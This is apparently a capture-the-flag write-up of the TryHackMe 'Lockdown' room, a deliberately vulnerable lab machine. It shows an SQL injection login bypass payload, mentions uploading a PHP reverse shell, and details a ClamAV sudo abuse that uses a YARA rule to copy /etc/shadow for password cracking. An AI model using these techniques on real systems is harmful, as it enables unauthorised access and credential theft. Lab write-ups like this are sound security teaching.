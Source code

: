 ```yaml
---
title: "TryHackMe - Lockdown"
author: Nasrallah
description: ""
date: 2023-06-05 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, sqli, crack, clamav, sudo, john]
img_path: /assets/img/tryhackme/lockdown
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Lockdown](https://tryhackme.com/room/lockdown) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.51.227
Host is up (0.099s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 271dc58a0bbc02c0f0f1f55ad1ffa463 (RSA)
|   256 cef76029524f65b120020a2d0740fdbf (ECDSA)
|_  256 a5b55a4013b00fb65a5f2160716f452e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Coronavirus Contact Tracer
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found OpenSSH on port 22 and Apache on port 80.

### Web

Navigate to the web page.

![](1.png)

We got redirected to the domain `contacttracer.thm`, so we add it to `/etc/hosts` and refresh the page.

On the page we find a link that goes to an admin panel.

![](2.png)

It's a login page, i tried some default credentials as always but didn't work then tried `SQLi` and managed to log in `' or 1=1 -- -`.

![](3.png)

On the system_info page we see an upload form for the system logo.

![](4.png)

## **Foothold**

Let's upload a php reverse shell, setup a netcat listener and logout to the first page because that's where the logo is located at.

![](5.png)

## **Privilege Escalation**

### www-data --> cyrus

Let's now read the config file for the login page and see if we can find any passwords:

![](6.png)

I found a hash but couldn't crack it. We can also see that the config file is calling two other files located in `classes` directory.

Let's check them out.

![](7.png)

We found `mysql` credentials, let's login the service and see what we can find.

![](8.png)

We found the tables `users` and in it we find an md5 hash. Let's crack it on crackstation.net

![](9.png)

We cracked the password, now let's see if someone is using the same password:

```bash
www-data@lockdown:/home$ ls
cyrus  maxine
www-data@lockdown:/home$ su cyrus 
Password: 
cyrus@lockdown:/home$ cd
cyrus@lockdown:~$ ls
quarantine  testvirus  user.txt
```

We were able to switch to user `cyrus`

### cyrus --> maxine

Let's check our privilege with `sudo -l`

```bash
cyrus@lockdown:~$ sudo -l
[sudo] password for cyrus: 
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
```

There is a shell script we can run as root, let's check it.

```bash
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

This bash script prompts the user to enter a path and performs the following actions:

1. Reads the user's input and assigns it to the variable `TARGET`.
2. Checks if the file or directory specified by `TARGET` exists (`-e`) and is readable (`-r`).
3. If the path is valid and accessible, it proceeds with the following actions:
   a. Executes the `/usr/bin/clamscan` command, which is a command-line antivirus scanner. It scans the file or directory specified by `TARGET` and uses the `--copy` option to copy infected files to the `/home/cyrus/quarantine` directory.
   b. Executes the `/bin/chown` command to change the ownership of the `/home/cyrus/quarantine` directory and its contents to the user `cyrus` and the group `cyrus`.
4. If the path is invalid or inaccessible, it displays the message "Invalid or inaccessible path."

In summary, this script scans a file or directory using ClamAV antivirus (`clamscan`), moves infected files to a quarantine directory, and changes the ownership of the quarantine directory to the user `cyrus` and group `cyrus`.

Thanks to `ChatGPT` for the explanation.

I searched for ways to exploit this and found the following [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-clamav-privilege-escalation/) that showcases how to do so.

The way the exploitation works is we add a yara rule to `/var/lib/clamav` which is the database directory.

```js
rule test
{
    strings:
      $string = "root"
    condition:
      $string
}
```

The above rule specifies the string `root`, so if the file contains that string it is considered infected.

Let's scan the `/etc/shadow` file

![](10.png)

The file got copied to `quarantine` directory, let's read it.

![](11.png)

We got `maxine`'s hash, let's crack it.

![](12.png)

We got the password, le's switch to maxine

```bash
cyrus@lockdown:/var/lib/clamav$ su maxine
Password: 
maxine@lockdown:/var/lib/clamav$ id
uid=1000(maxine) gid=1000(maxine) groups=1000(maxine),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
maxine@lockdown:~$ 
```

### maxine --> root

If we check our privilege we see we can run any command as root.

```bash
maxine@lockdown:~$ sudo -l
[sudo] password for maxine: 
Matching Defaults entries for maxine on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User maxine may run the following commands on lockdown:
    (ALL : ALL) ALL

```
Let's run `sudo su` to become root.

```bash
axine@lockdown:~$ sudo su
root@lockdown:/home/maxine# id
uid=0(root) gid=0(root) groups=0(root)
root@lockdown:/home/maxine# 

```


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
